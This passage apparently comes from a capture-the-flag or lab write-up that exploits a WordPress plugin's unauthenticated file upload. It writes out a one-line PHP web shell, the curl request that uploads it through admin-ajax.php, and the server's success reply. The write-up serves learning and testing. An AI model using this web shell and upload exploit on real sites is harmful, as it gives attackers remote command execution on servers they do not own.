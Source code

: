 ![evidence](./static/04-poc.png)

When I test the PoC, and I store a web shell in a file called `ws.phtml`:
```shell
$ echo "<?php system(\$_GET['cmd']); ?>" > ws.phtml
```
And I use the `curl` command:
```shell
curl 'http://www.hacknos.com/g@web/wp-admin/admin-ajax.php' \
> -F "0=@$(pwd)/ws.phtml" \
> -F "action=wpsp_upload_attachment" -H 'multipart/form-data'
{"isError":"0","errorMessege":"done","attachment_id":"1"}
```
When I check the `/g@web/wp-content/uploads/`, then I can see:

![evidence](./static/05-uploads.png)
